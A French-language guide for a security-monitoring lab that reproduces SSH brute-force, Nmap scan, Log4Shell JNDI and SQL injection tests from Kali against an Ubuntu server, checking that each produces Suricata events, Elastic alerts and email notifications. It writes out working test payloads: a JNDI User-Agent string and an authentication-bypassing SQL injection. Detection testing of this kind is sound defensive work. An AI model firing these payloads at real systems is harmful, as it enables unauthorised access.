# Guide d'utilisation du laboratoire

Ce guide décrit le démarrage du laboratoire et la reproduction des tests. Les paramètres des règles Elastic Security sont décrits dans le [guide de configuration des détections](06-configuration-detection.md). Les commandes ci-dessous s'appliquent aux VM du projet : Kali `192.168.56.101` et Ubuntu `192.168.56.10`.

L’application PHP est décrite dans le [guide de l’application web](05-application-web.md).

Pour chaque test, suivre les étapes dans l’ordre : **requête → journal collecté → alerte Elastic Security → notification → courriel**. Comparer les heures, les IP et la signature ; relier le document de notification au courriel par son `alert_id`.

Les heures des tests sont affichées en **UTC−4** ; les dates terminées par `Z` sont en UTC. Pour consulter les résultats historiques, utiliser les périodes absolues indiquées. Les compteurs Discover portent sur les journaux sélectionnés, tandis que la vue Alertes compte les alertes de détection. Le statut **Open** désigne une alerte à traiter. Les délais présentés sont propres aux essais ; la messagerie affiche la réception à la minute.

## 1. Démarrer et vérifier le laboratoire

Démarrer les deux VM dans VirtualBox. Sur Ubuntu :

```bash
ip -br address
sudo systemctl start elasticsearch kibana syslog-ng suricata
systemctl is-active elasticsearch kibana syslog-ng suricata
```

**Résultat attendu :** `192.168.56.10/24` sur `enp0s8` et services à l’état `active`.

Pour le scénario SSH, contrôler aussi le service et l'écoute :

```bash
sudo systemctl start ssh
sudo systemctl status ssh --no-pager -l
sudo ss -lntp 'sport = :22'
```

**Résultat attendu :** le service SSH est actif et écoute sur le port TCP 22 accessible depuis Kali. Si l'authentification par mot de passe est désactivée, ce test ne produira pas les messages attendus ; vérifier la configuration SSH déjà utilisée pour le scénario avant de continuer.

Depuis Kali :

```bash
ip -br address
ping -c 4 192.168.56.10
```

**Résultat attendu :** l'interface du réseau de laboratoire possède l'adresse `192.168.56.101` et le serveur répond.

Ouvrir `http://192.168.56.10:5601`, se connecter à Kibana et vérifier que la règle **SSH — Échecs répétés depuis une même IP** est activée. Elle recherche dans `lab-syslog-system` les événements `event.action : "ssh_login_failed"`, regroupés par `source.ip`, avec un seuil de **5**. Elle est planifiée chaque minute avec cinq minutes de recherche supplémentaire.

## 2. Reproduire le scénario SSH

### 2.1. Objectif et conditions

Générer cinq échecs d’authentification SSH rapprochés depuis Kali, en saisissant manuellement des mots de passe erronés.

Les messages `Failed password for ...` sont collectés par syslog-ng, puis normalisés par les pipelines `system-logs` et `ssh-auth`. La règle Elastic Security compte ensuite les événements de chaque IP.

### 2.2. Générer les échecs depuis Kali

Sur Ubuntu, vérifier préalablement que le compte de test choisi n'existe pas :

```bash
getent passwd admin
```

**Résultat attendu :** aucune entrée. Si ce nom existe, choisir un autre nom inexistant et l'utiliser dans la commande suivante.


`getent passwd admin` ne renvoie aucune entrée : le compte choisi pour ce test n’existe pas sur Ubuntu.

Sur Kali :

```bash
date -Is
for tentative in 1 2 3 4 5; do
  printf '\nTentative SSH %s/5\n' "$tentative"
  ssh -o PreferredAuthentications=password \
      -o PubkeyAuthentication=no \
      -o NumberOfPasswordPrompts=1 \
      -o ConnectTimeout=5 \
      admin@192.168.56.10
done
date -Is
```

À chaque demande, saisir un mot de passe volontairement erroné. La saisie ne s'affiche pas dans le terminal. Lors de la première connexion, vérifier l'identité du serveur avant d'accepter sa clé ; les connexions suivantes réutilisent cette confiance.

**Résultat attendu :** cinq refus `Permission denied` en quelques minutes. Un refus de connexion ou un délai d’attente ne valide pas un échec d’authentification.


**Résultat observé :** les cinq tentatives vers `admin@192.168.56.10` affichent `Permission denied (publickey,password)`. Le test débute le **30 septembre 2026 à 23:46:32−04:00** et se termine à **23:47:05−04:00**. Les options SSH demandent l'authentification par mot de passe, désactivent l'authentification par clé et limitent chaque connexion à une demande de mot de passe. Ces refus sont rapprochés dans le temps et visent le même serveur.

### 2.3. Vérifier les journaux sur Ubuntu

Juste après le test :

```bash
sudo journalctl -u ssh --since "10 minutes ago" --no-pager |
  rg 'Failed password for .*admin'
```

Si `rg` n'est pas installé dans la VM, utiliser :

```bash
sudo journalctl -u ssh --since "10 minutes ago" --no-pager |
  grep -E 'Failed password for .*admin'
```

Le fichier d'authentification écrit par la configuration syslog-ng du laboratoire permet également de contrôler les événements :

```bash
sudo tail -n 200 /var/log/auth.log |
  grep -E 'Failed password for .*admin'
```

**Résultat attendu :** au moins cinq messages du type `Failed password for invalid user admin from 192.168.56.101 port ... ssh2`, correspondant aux heures du test. Le port source peut changer entre les connexions.


**Résultat observé :** cinq messages `Failed password for invalid user admin` proviennent de `192.168.56.101`, aux heures **23:46:49, 23:46:53, 23:46:58, 23:47:01 et 23:47:05**, le 30 septembre. Ils correspondent à la période du test Kali. Les ports sources changent entre les connexions, tandis que l'adresse source reste identique : le regroupement de la règle repose sur cette IP.

### 2.4. Vérifier la collecte dans Discover

Dans Kibana :

1. Ouvrir **Discover** et sélectionner la vue de données couvrant `lab-syslog-system`.
2. Choisir une plage absolue couvrant le test. Pour le test documenté : **30 septembre 2026, 23:45 à 23:50 en UTC−4**, soit **1er octobre 2026, 03:45 à 03:50 en UTC**. Adapter les heures au fuseau d'affichage Kibana.
3. Appliquer le filtre KQL :

```text
event.action : "ssh_login_failed" and source.ip : "192.168.56.101" and user.name : "admin"
```

4. Ajouter les colonnes `@timestamp`, `source.ip`, `user.name`, `event.action`, `event.outcome` et `message`.
5. Actualiser et vérifier les documents du test.

**Résultat attendu :** au moins cinq événements avec `event.outcome: failure` et `event.action: ssh_login_failed`, depuis la même IP. Les heures doivent correspondre aux messages Ubuntu, en tenant compte du fuseau d'affichage Kibana.


Discover affiche **cinq documents** dans la vue **Logs de sécurité**, sur une période incluant le test du 30 septembre à 23:46–23:47.

| Élément visible | Lecture |
| --- | --- |
| Documents (5) | Cinq événements correspondent au filtre et à la période |
| source.ip : 192.168.56.101 | Adresse de Kali |
| user.name : admin | Utilisateur inexistant testé |
| process.name : sshd | Processus ayant émis les messages |
| event.action : ssh_login_failed | Action ajoutée par le pipeline SSH |
| event.outcome : failure | Échec d'authentification |
| event.category : authentication | Catégorie normalisée |
| host.name : server | Hôte ayant journalisé les échecs |
| message : Failed password for invalid user admin ... | Message d'origine conservé |

Les horodatages correspondent aux cinq échecs du journal Ubuntu.

L’histogramme répartit les cinq documents en deux barres de trois et deux événements, par intervalles de trente secondes.

### 2.5. Vérifier l'alerte Elastic Security

Ouvrir la règle **SSH — Échecs répétés depuis une même IP**, puis son onglet **Alertes**. Choisir une période incluant le test et la période suivant son exécution. Actualiser après les exécutions planifiées.

Ouvrir l'alerte correspondant au test et vérifier :

- le nom de la règle ;
- le regroupement sur `source.ip` et la valeur `192.168.56.101` ;
- la date de l'alerte et la période du test ;
- le compteur du résultat de seuil, lorsqu'il est affiché ;
- la sévérité moyenne et le score de risque 47.

**Résultat attendu :** une alerte de cette règle pour le groupe ayant atteint au moins cinq échecs. Une alerte par seuil est un résultat agrégé ; elle ne reprend pas nécessairement tous les champs de chaque journal source. Consulter Discover pour les messages individuels.


**Résultat observé :** la page **Security → Détections → Alertes**, sur **Last 15 minutes**, affiche une alerte associée à la règle SSH. Le tableau indique :

| Élément | Valeur observée | Lecture |
| --- | --- | --- |
| @timestamp | 30 septembre 2026, 23:47:56.613 | Heure affichée pour l'alerte |
| Règle | SSH — Échecs répétés dep… | Nom tronqué de la règle SSH documentée |
| Sévérité | medium | Priorité moyenne |
| Score de risque | 47 | Score configuré sur la règle |
| Raison | event with source 192.168.56.101 created medium alert SSH… | Adresse source correspondant à Kali |
| Compteur global et répartition par règle | 1 | Une alerte dans la vue et la période affichées |

L’alerte apparaît environ **51,6 secondes après le dernier échec**, enregistré à 23:47:05.

Les cinq échecs collectés déclenchent une alerte agrégée pour la source Kali.

#### Détails de l'alerte


| Élément | Valeur observée | Lecture |
| --- | --- | --- |
| Nom complet | SSH — Échecs répétés depuis une même IP | Règle déclenchée |
| Heure | 30 septembre 2026, 23:47:56.613 | Même alerte que dans le tableau |
| État | Open | État de traitement de l'alerte |
| Sévérité / score | Medium / 47 | Priorité configurée |
| source.ip | 192.168.56.101 | Adresse de Kali |
| kibana.alert.threshold_result.terms.field | source.ip | Champ de regroupement du résultat |
| signal.threshold_result.terms.field | source.ip | Champ également affiché sous ce nom |
| kibana.alert.rule.parameters.threshold.value | 5 | Minimum configuré |
| kibana.alert.rule.parameters.type | threshold | Type de détection |
| kibana.alert.rule.rule_type_id | siem.thresholdRule | Identifiant du type de règle |

Les détails confirment la source `192.168.56.101` et le seuil configuré à cinq. Le compteur exact des événements agrégés n’est pas affiché.

Pour reproduire ces vues, ouvrir les détails de la ligne d'alerte et rechercher les champs `source.ip` et `threshold`. Pour retrouver la preuve ultérieurement, choisir une période absolue incluant **23:47:56.613 le 30 septembre en UTC−4**, soit **03:47:56.613 le 1er octobre en UTC**.

### 2.6. Vérifier l'action et le courriel

La notification suit le circuit **Notifications SOC → lab-notifications → relais Python → SMTP SSL** décrit dans le [guide des détections](06-configuration-detection.md).

Dans **Kibana → Dev Tools**, rechercher les notifications récentes :

```http
GET lab-notifications/_search
{
  "size": 10,
  "sort": [
    { "@timestamp": { "order": "desc" } }
  ]
}
```

Identifier le document du test SSH à partir de `scenario`, `rule_name`, `alert_id` et de l'heure. Si d'autres tests ont eu lieu depuis, élargir la recherche ou filtrer la période du test.

Sur Ubuntu, retrouver les passages du service autour de l'alerte du 30 septembre à 23:47:56.613, avec les heures du serveur :

```bash
sudo journalctl -u soc-notifications.service \
  --since "2026-09-30 23:45:00" \
  --until "2026-10-01 00:00:00" --no-pager
```

Comparer ensuite le nom de règle, le scénario et l'heure avec le courriel reçu.

#### Preuve de notification et de réception

La recherche retourne la notification SSH suivante :

```json
{
  "@timestamp": "2026-10-01T03:47:56.685Z",
  "alert_id": "c408e61bb0b89524b4cd44e0952646fb0df5c8812c74e7399fff38cdd50db510",
  "rule_name": "SSH — Échecs répétés depuis une même IP",
  "scenario": "Échecs SSH",
  "message": "Plusieurs échecs de connexion SSH ont été détectés sur le serveur."
}
```

Ce document est enregistré dans `lab-notifications` sous l'identifiant `OLaT9aABj0iPFDUOe4UV`. Son heure équivaut au **30 septembre à 23:47:56.685 en UTC−4**.

Extrait du journal :

```text
sept. 30 23:48:05 server systemd[1]: Starting soc-notifications.service - Envoi des alertes SOC par courriel...
sept. 30 23:48:07 server python3[10145]: Courriel envoyé pour : SSH — Échecs répétés depuis une même IP
sept. 30 23:48:07 server systemd[1]: soc-notifications.service: Deactivated successfully.
sept. 30 23:48:07 server systemd[1]: Finished soc-notifications.service - Envoi des alertes SOC par courriel.
```



**Lecture du courriel :** l'objet est **Alerte SOC — SSH — Échecs répétés depuis une même IP** ; l'expéditeur affiché est **Ne pas répondre - Alertes SOC** ; la réception est affichée le **30 septembre à 23:48**. Le corps reprend le scénario, la règle, la date UTC de la notification et l'identifiant d'alerte ci-dessus. Cet identifiant commun relie directement le document Elasticsearch au message reçu.

L'explication destinée à l'administrateur indique que les répétitions peuvent correspondre à une tentative de deviner un mot de passe et que l'alerte ne signifie pas qu'un accès a été obtenu.

| Étape | Heure observée en UTC−4 |
| --- | --- |
| Dernier échec SSH local | 23:47:05 |
| Alerte Elastic Security | 23:47:56.613 |
| Document lab-notifications | 23:47:56.685 |
| Envoi annoncé par le service | 23:48:07 |
| Réception affichée dans la messagerie | 23:48, précision à la minute |

Le relais annonce l’envoi environ **10,3 secondes après la notification indexée**.

## 3. Critères de validation du scénario SSH

| Étape | Preuve attendue |
| --- | --- |
| Génération | Confirmée : cinq refus d'authentification sur Kali |
| Journalisation | Confirmée : cinq messages Failed password pour admin, depuis 192.168.56.101 |
| Collecte et normalisation | Confirmées : cinq documents Discover contenant les champs SSH attendus |
| Détection | Confirmée dans la vue Alertes : règle SSH, IP du test et horodatage concordants |
| Notification | Confirmée : document lab-notifications, envoi journalisé et courriel reçu |

## 4. Reproduire le scénario de scan Nmap

### 4.1. Objectif et conditions

Depuis Kali, scanner les ports TCP du serveur Ubuntu `192.168.56.10`. La règle **Scan de ports potentiel — nombreux ports contactés** recherche dans `lab-syslog-ids` les événements Suricata de type flow vers ce serveur, regroupés par `source.ip` et `destination.ip`. Elle exige au moins **10 événements** et **10 ports de destination distincts** par groupe. Vérifier que Suricata capture sur `enp0s8`, que syslog-ng collecte les événements flow et que la règle est activée.

### 4.2. Lancer le scan depuis Kali

```bash
clear
date -Is
sudo nmap -sS 192.168.56.10
date -Is
```

`-sS` demande un scan TCP SYN ; sudo fournit les privilèges nécessaires à ce mode. Sans liste de ports explicite, Nmap utilise sa sélection habituelle des ports TCP les plus courants. Conserver les heures afin de retrouver les événements du test.



**Résultat observé :** Nmap **7.95** annonce un scan le **1er octobre 2026 à 10:48 EDT**. La cible `192.168.56.10` répond. Le résultat indique **997 ports TCP fermés** avec réponse reset, et trois ports ouverts :

| Port | État | Libellé affiché par Nmap |
| --- | --- | --- |
| 22/tcp | open | ssh |
| 80/tcp | open | http |
| 9200/tcp | open | wap-wsp |

Les noms de services proviennent des associations de ports de Nmap. Dans ce laboratoire, le port 9200 est utilisé par Elasticsearch.

Le scan dure **0,23 seconde**. La date affichée après son exécution est **2026-10-01T10:48:54-04:00**.

Le seuil compte les ports contactés, qu’ils soient ouverts ou fermés.

### 4.3. Vérifier les flux dans Discover

Dans **Discover**, sélectionner la vue **Logs de sécurité** couvrant `lab-syslog-ids`. Choisir une plage absolue du **1er octobre 2026, 10:47 à 10:55 en UTC−4**, soit **14:47 à 14:55 UTC**, et appliquer :

```text
suricata.event_type : "flow" and source.ip : "192.168.56.101" and destination.ip : "192.168.56.10" and suricata.dest_port : *
```

Ajouter les colonnes **@timestamp**, **source.ip**, **destination.ip**, **suricata.dest_port** et **suricata.proto**, puis actualiser. Les événements flow peuvent être écrits après la fin du scan, lors de la fermeture ou de l'expiration des flux ; le résultat Nmap peut donc précéder leur apparition dans Discover.

**Résultat attendu :** des flux de Kali vers Ubuntu sur au moins dix ports distincts.



Discover affiche **1 000 événements flow**, depuis Kali vers Ubuntu, sur une période incluant le scan.

| Élément visible | Lecture |
| --- | --- |
| source.ip : 192.168.56.101 | VM Kali ayant lancé le scan |
| destination.ip : 192.168.56.10 | Serveur Ubuntu ciblé |
| suricata.proto : TCP | Protocole des flux visibles |
| Ports visibles : 49 154, 9 099, 88, 27 355 | Quatre ports de destination distincts dans les lignes affichées |
| @timestamp : 10:50:04.290 | Horodatage commun aux quatre lignes visibles |
| Documents (1 000) | Compteur affiché des événements correspondant à la recherche |

Les valeurs `49,154` et similaires utilisent des séparateurs de milliers : il s’agit du port **49154**. L’histogramme situe les flux autour de **10:49–10:50**.

Les lignes visibles sont horodatées environ soixante-dix secondes après la fin du scan. Les flux peuvent être journalisés lors de leur fermeture ou expiration ; cet écart ne mesure donc pas uniquement l’ingestion.

Le compteur porte sur les événements, pas sur les ports distincts. La règle évalue séparément la cardinalité des ports.

### 4.4. Vérifier l'alerte Elastic Security

Ouvrir **Security → Détections → Alertes**, choisir une période absolue du **1er octobre 2026, 10:47 à 11:00 en UTC−4** et retrouver la règle **Scan de ports potentiel — nombreux ports contactés**. Ouvrir la ligne d'alerte puis l'onglet **Tableau** ; rechercher les champs `source.ip`, `destination.ip` et `threshold`.



**Résultat observé :** la vue Alertes, sur Last 30 minutes, affiche une alerte de cette règle à **10:50:28.690**, de sévérité **medium** et de score **47**.







| Champ ou élément | Valeur observée | Lecture |
| --- | --- | --- |
| source.ip | 192.168.56.101 | Kali |
| destination.ip | 192.168.56.10 | Ubuntu |
| kibana.alert.threshold_result.terms.field | source.ip et destination.ip | Champs du groupe ayant déclenché |
| signal.threshold_result.terms.field | source.ip et destination.ip | Même regroupement sous le nom également affiché |
| kibana.alert.rule.parameters.threshold.cardinality.field | suricata.dest_port | Champ de cardinalité configuré |
| kibana.alert.rule.parameters.threshold.cardinality.value | 10 | Minimum de ports distincts configuré |
| kibana.alert.rule.parameters.threshold.field | source.ip et destination.ip | Regroupement configuré |
| État | Open | État de traitement de l'alerte |

La date et les deux IP concordent avec le scan et les flux Discover. L'alerte est horodatée environ **94,7 secondes après la date de fin du scan** affichée sur Kali. Ce délai est propre au test.

`cardinality.value: 10` est le seuil configuré. Le nombre exact de ports distincts agrégés n’est pas affiché.

### 4.5. Vérifier la notification et l'envoi du courriel

Dans **Kibana → Dev Tools**, rechercher les notifications du scénario :

```http
GET lab-notifications/_search
{
  "size": 10,
  "query": {
    "match_phrase": {
      "scenario": "Scan Nmap"
    }
  },
  "sort": [
    { "@timestamp": "desc" }
  ]
}
```

La recherche contient huit notifications, dont celle de ce test et sept antérieures.

Document du test, enregistré dans `lab-notifications` sous `Grby96ABj0iPFDUOEaZ6` :

```json
{
  "@timestamp": "2026-10-01T14:50:28.838Z",
  "alert_id": "4991593517d2a558e150bdddb62a85ea739d2e69022376024671dfe0651f3347",
  "rule_name": "Scan de ports potentiel — nombreux ports contactés",
  "scenario": "Scan Nmap",
  "message": "Un balayage des ports ou services du serveur a été détecté."
}
```

La notification est datée de **10:50:28.838 en UTC−4**.

Sur Ubuntu, avec les heures locales du serveur :

```bash
sudo journalctl -u soc-notifications.service \
  --since "2026-10-01 10:48:00" \
  --until "2026-10-01 10:55:00" --no-pager
```

Extrait du journal :

```text
oct. 01 10:50:33 server systemd[1]: Starting soc-notifications.service - Envoi des alertes SOC par courriel...
oct. 01 10:50:47 server python3[19368]: Courriel envoyé pour : Scan de ports potentiel — nombreux ports contactés
oct. 01 10:50:47 server systemd[1]: soc-notifications.service: Deactivated successfully.
oct. 01 10:50:47 server systemd[1]: Finished soc-notifications.service - Envoi des alertes SOC par courriel.
```

Le relais annonce l’envoi pour la règle Nmap à **10:50:47**, environ **18,2 secondes après la notification**.

| Étape | Heure observée le 1er octobre 2026 en UTC−4 |
| --- | --- |
| Fin affichée du scan Kali | 10:48:54 |
| Flux visibles dans Discover | 10:50:04.290 |
| Alerte Elastic Security | 10:50:28.690 |
| Document lab-notifications | 10:50:28.838 |
| Envoi annoncé par le relais | 10:50:47 |

#### Réception du courriel



**Résultat observé :** le courriel reçu porte l'objet **Alerte SOC — Scan de ports potentiel — nombreux ports contactés**, avec l'expéditeur affiché **Ne pas répondre - Alertes SOC**. La messagerie affiche le **1er octobre 2026 à 10:50**, avec une précision à la minute.

Le corps reprend le scénario **Scan Nmap**, le nom complet de la règle, la date **2026-10-01T14:50:28.838Z** et l'identifiant :

```text
4991593517d2a558e150bdddb62a85ea739d2e69022376024671dfe0651f3347
```

La date et l’`alert_id` correspondent au document indexé.

L'explication indique qu'un balayage sert à identifier les ports et services accessibles et peut précéder une intrusion, tout en précisant que le scan seul ne prouve pas la compromission d'un service.

### 4.6. Critères de validation du scénario Nmap

| Étape | Preuve obtenue |
| --- | --- |
| Génération | Résultat Kali : scan de 192.168.56.10, 997 ports fermés et trois ouverts |
| Collecte | Discover : 1 000 événements flow de Kali vers Ubuntu, avec plusieurs ports visibles |
| Détection | Alerte à 10:50:28.690, couple source–destination concordant et paramètres de cardinalité documentés |
| Notification | Document lab-notifications à 10:50:28.838 |
| Envoi | Journal du relais : courriel envoyé à 10:50:47 |
| Réception | Courriel reçu avec la même date et le même alert_id que la notification |

## 5. Reproduire le scénario Log4Shell — tentative JNDI

### 5.1. Objectif et conditions

Envoyer depuis Kali une requête HTTP vers Ubuntu avec le motif `${jndi:` dans le User-Agent. La signature Suricata **1000002** inspecte cet en-tête sur le port TCP 80. La règle Elastic Security **Tentative d’exploitation de Log4Shell - JNDI** recherche les alertes de cette signature dans `lab-syslog-ids`.

Le scénario vérifie la détection du motif. Il ne nécessite pas le déploiement d'une application Log4j vulnérable ni d'un serveur LDAP et ne démontre pas une exécution de code.

### 5.2. Envoyer la requête depuis Kali

```bash
clear
date -Is
curl -v --max-time 10 \
  -A '${jndi:ldap://192.168.56.101:1389/test}' \
  http://192.168.56.10/
date -Is
```

| Élément | Fonction |
| --- | --- |
| -v | Affiche la connexion, les en-têtes envoyés et la réponse |
| --max-time 10 | Limite la durée totale de la commande à dix secondes |
| -A | Définit le User-Agent |
| Guillemets simples autour du motif | Transmettent le texte littéral sans expansion par le shell |
| http://192.168.56.10/ | Requête vers le serveur HTTP du laboratoire, port 80 |

L'adresse LDAP dans le User-Agent fait partie du texte de test. Curl envoie une requête HTTP au serveur Ubuntu ; il ne se connecte pas lui-même à cette adresse LDAP.



**Résultat observé :** la capture commence à **2026-10-01T11:42:59-04:00**. Curl affiche une connexion depuis **192.168.56.101:54856** vers **192.168.56.10:80**, puis :

```text
> GET / HTTP/1.1
> Host: 192.168.56.10
> User-Agent: ${jndi:ldap://192.168.56.101:1389/test}
< HTTP/1.1 200 OK
< Date: Thu, 01 Oct 2026 15:43:03 GMT
< Server: Apache/2.4.58 (Ubuntu)
```

Le User-Agent contient le motif attendu. Apache répond **HTTP 200** avec sa page par défaut.

La date HTTP **15:43:03 GMT** correspond à **11:43:03 en UTC−4**.

### 5.3. Vérifier l'alerte Suricata collectée dans Discover

Dans **Discover → Logs de sécurité**, choisir une période absolue du **1er octobre 2026, 11:42 à 11:47 en UTC−4**, soit **15:42 à 15:47 UTC**. Appliquer :

```text
suricata.event_type : "alert" and suricata.alert.signature_id : 1000002 and source.ip : "192.168.56.101" and destination.ip : "192.168.56.10"
```

Ajouter les colonnes **@timestamp**, **source.ip**, **destination.ip**, **suricata.alert.signature_id**, **suricata.alert.signature** et **suricata.http.http_user_agent**. Actualiser.

**Résultat attendu :** un événement de signature 1000002 avec les IP du test. Vérifier le User-Agent dans les détails lorsqu’il est renseigné.


Discover affiche **deux événements** de signature **1000002**, depuis Kali vers Ubuntu sur **80/TCP** :

| Heure en UTC−4 | Lecture |
| --- | --- |
| 11:41:55.958 | Événement antérieur au test curl débutant à 11:42:59 ; il ne lui est pas attribué |
| 11:43:03.369 | Événement concordant avec la réponse HTTP du test à 11:43:03 |

L’événement de **11:43:03.369** correspond au test ; l’autre est antérieur. Le User-Agent n’est pas affiché dans les colonnes.

### 5.4. Vérifier l'alerte Elastic Security

Dans **Security → Détections → Alertes**, sélectionner une période absolue du **1er octobre 2026, 11:42 à 11:50 en UTC−4**, puis ouvrir l'alerte de la règle **Tentative d’exploitation de Log4Shell - JNDI**. Dans l'onglet **Tableau**, rechercher les IP et la signature.



Deux alertes figurent dans la sélection : **11:42:48.494** et **11:43:48.513**, de sévérité moyenne et de score 47. Seule la seconde correspond au test commencé à 11:42:59.





| Élément | Valeur observée |
| --- | --- |
| Règle | Tentative d’exploitation de Log4Shell - JNDI |
| Heure de l'alerte ouverte | 1er octobre 2026, 11:43:48.513 en UTC−4 |
| source.ip | 192.168.56.101 — Kali |
| destination.ip | 192.168.56.10 — Ubuntu |
| Sévérité / score | Medium / 47 |
| État de traitement | Open |

Les IP correspondent au test. L’alerte suit l’événement IDS de **11:43:03.369** d’environ **45,1 secondes**.



Les détails de l’alerte de **11:43:48.513** confirment le SID **1000002** et la requête :

```text
suricata.event_type: "alert" and suricata.alert.signature_id: 1000002
```

### 5.5. Vérifier la notification et l'envoi du courriel

Dans **Kibana → Dev Tools** :

```http
GET lab-notifications/_search
{
  "size": 10,
  "query": { "match_phrase": { "scenario": "Log4Shell — tentative JNDI" } },
  "sort": [{ "@timestamp": "desc" }]
}
```

Parmi les sept notifications retournées, le document suivant correspond au test de 11:43 :

```json
{
  "@timestamp": "2026-10-01T15:43:48.600Z",
  "alert_id": "3183a735891a30c120822a87e38649430e0e966bc534cb0590e838c40c9e0d5e",
  "rule_name": "Tentative d’exploitation de Log4Shell - JNDI",
  "scenario": "Log4Shell — tentative JNDI",
  "message": "Une requête contenant un motif JNDI associé à Log4Shell a été détectée."
}
```

La notification est datée de **11:43:48.600 en UTC−4**.

Sur Ubuntu, consulter les passages du service :

```bash
sudo journalctl -u soc-notifications.service \
  --since "2026-10-01 11:42:00" \
  --until "2026-10-01 11:50:00" --no-pager
```

Extrait du journal :

```text
oct. 01 11:43:54 server systemd[1]: Starting soc-notifications.service - Envoi des alertes SOC par courriel...
oct. 01 11:44:06 server python3[20389]: Courriel envoyé pour : Tentative d’exploitation de Log4Shell - JNDI
oct. 01 11:44:06 server systemd[1]: soc-notifications.service: Deactivated successfully.
oct. 01 11:44:06 server systemd[1]: Finished soc-notifications.service - Envoi des alertes SOC par courriel.
```

Le relais annonce l’envoi environ **17,4 secondes après cette notification**, avec le même nom de règle.

| Étape | Heure le 1er octobre 2026 en UTC−4 |
| --- | --- |
| Événement Suricata | 11:43:03.369 |
| Alerte Elastic Security | 11:43:48.513 |
| Notification indexée | 11:43:48.600 |
| Envoi annoncé par le relais | 11:44:06 |

#### Réception du courriel



**Résultat observé :** le courriel porte l'objet **Alerte SOC — Tentative d’exploitation de Log4Shell - JNDI** et l'expéditeur affiché **Ne pas répondre - Alertes SOC**. La messagerie indique le **1er octobre 2026 à 11:44**, avec une précision à la minute.

Le corps reprend le scénario **Log4Shell — tentative JNDI**, le nom de règle, la date **2026-10-01T15:43:48.600Z** et l'identifiant :

```text
3183a735891a30c120822a87e38649430e0e966bc534cb0590e838c40c9e0d5e
```

La date et l’`alert_id` correspondent au document indexé. Le message explique le risque d’exécution de code sur une application vulnérable, tout en précisant que le test démontre la détection du motif JNDI.

### 5.6. Critères de validation du scénario JNDI

| Étape | Preuve obtenue |
| --- | --- |
| Génération | Curl transmet le motif JNDI dans le User-Agent ; Apache répond HTTP 200 |
| Collecte | Événement Suricata SID 1000002 à 11:43:03.369 dans Discover |
| Détection | Alerte à 11:43:48.513 avec les IP du test et le SID 1000002 |
| Notification | Document lab-notifications à 11:43:48.600 |
| Envoi | Journal du relais : courriel envoyé à 11:44:06 |
| Réception | Courriel à 11:44 avec la même date et le même alert_id |

## 6. Reproduire le scénario d'injection SQL

### 6.1. Objectif et conditions

Depuis Kali `192.168.56.101`, envoyer au formulaire `/apptest/login.php` d'Ubuntu `192.168.56.10` une valeur modifiant la logique d'authentification SQL. La signature Suricata **1000004** inspecte le corps HTTP de cette requête. Vérifier l'activation de la règle **Tentative d'injection SQL**, dont les paramètres et l'action sont décrits dans le [guide de détection](06-configuration-detection.md#5-tentative-dinjection-sql).

### 6.2. Envoyer le test depuis Kali

```bash
clear
date -Is
curl -i --max-time 10 \
  --data-urlencode "username=' OR 1=1 -- " \
  --data-urlencode "password=test" \
  http://192.168.56.10/apptest/login.php
date -Is
```

| Élément | Fonction |
| --- | --- |
| -i | Affiche les en-têtes de la réponse HTTP |
| --max-time 10 | Limite la durée totale de curl à dix secondes |
| --data-urlencode | Encode les valeurs du formulaire et envoie une requête POST |
| username | Champ contenant le motif SQLi inspecté par Suricata |
| ' OR 1=1 -- | Ferme une chaîne SQL, introduit une condition toujours vraie et un commentaire, si l'application concatène cette valeur dans sa requête |
| password=test | Valeur de test transmise dans le champ de mot de passe |

L'espace après `--` fait partie du payload. Le comportement exact dépend de la requête SQL de l'application vulnérable du laboratoire. Curl n'utilise pas `-L` : il affiche la redirection sans la suivre.



**Résultat observé :** la capture affiche :

```text
HTTP/1.1 302 Found
Date: Thu, 01 Oct 2026 17:06:33 GMT
Server: Apache/2.4.58 (Ubuntu)
Location: admin.php
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

Le serveur répond **HTTP 302 vers admin.php** et émet un cookie de session. La capture montre la redirection, sans afficher le contenu de la page authentifiée.

La date HTTP **17:06:33 GMT** situe la réponse à **13:06:33 en UTC−4**. La commande n’est pas visible dans la capture.

### 6.3. Vérifier la collecte dans Discover

Dans **Discover → Logs de sécurité**, choisir le **1er octobre 2026, 13:05 à 13:12 en UTC−4** et appliquer :

```text
suricata.event_type : "alert" and suricata.alert.signature_id : 1000004 and source.ip : "192.168.56.101" and destination.ip : "192.168.56.10"
```

Afficher **@timestamp**, **source.ip**, **destination.ip**, **suricata.alert.signature_id** et **suricata.alert.signature**, puis actualiser.



Discover affiche **un événement SQLi** dans la période du test.

| Champ | Valeur observée | Lecture |
| --- | --- | --- |
| @timestamp | 13:06:33.927 | Heure de l'événement Suricata |
| source.ip | 192.168.56.101 | Kali |
| destination.ip | 192.168.56.10 | Ubuntu |
| suricata.dest_port | 80 | Port HTTP ciblé |
| suricata.proto | TCP | Protocole du flux |
| suricata.alert.signature_id | 1000004 | Signature locale SQLi |
| suricata.alert.signature | Tentative d'injection SQL | Libellé de l'alerte IDS |

L’événement de **13:06:33.927** correspond à la réponse HTTP datée de 13:06:33 et aux IP du test.

### 6.4. Vérifier l'alerte Elastic Security

Ouvrir **Tentative d’injection SQL → Alertes** sur le **1er octobre 2026, 13:05 à 13:15 en UTC−4**. Dans les détails, vérifier `source.ip`, `destination.ip` et `suricata.alert.signature_id`.



Une alerte de la règle **Tentative d’injection SQL** apparaît à **13:06:47.900**, de sévérité moyenne et de score 47.




| Élément | Valeur observée | Lecture |
| --- | --- | --- |
| Heure | 13:06:47.900 en UTC−4 | Horodatage de l'alerte Elastic Security |
| source.ip | 192.168.56.101 | Kali |
| destination.ip | 192.168.56.10 | Ubuntu |
| suricata.alert.signature_id | 1000004 | Signature de l'événement détecté |
| kibana.alert.rule.parameters.query | suricata.alert.signature_id: 1000004 | Filtre configuré dans la règle |
| Sévérité / score | Medium / 47 | Priorité configurée |
| État | Open | Statut de traitement |

Les IP et le SID correspondent à l’événement IDS. L’alerte est produite **13,973 secondes** après celui-ci.

### 6.5. Vérifier la notification, l'envoi et la réception du courriel

Dans **Kibana → Dev Tools** :

```http
GET lab-notifications/_search
{
  "size": 10,
  "query": { "match_phrase": { "scenario": "Injection SQL" } },
  "sort": [{ "@timestamp": "desc" }]
}
```

Parmi les quatre notifications retournées, le document suivant correspond au test :

```json
{
  "@timestamp": "2026-10-01T17:06:48.209Z",
  "alert_id": "345ca78de71cf418e66c9c3c40d40307dd8ad3628bce6bd226984362093b0b49",
  "rule_name": "Tentative d'injection SQL ",
  "scenario": "Injection SQL",
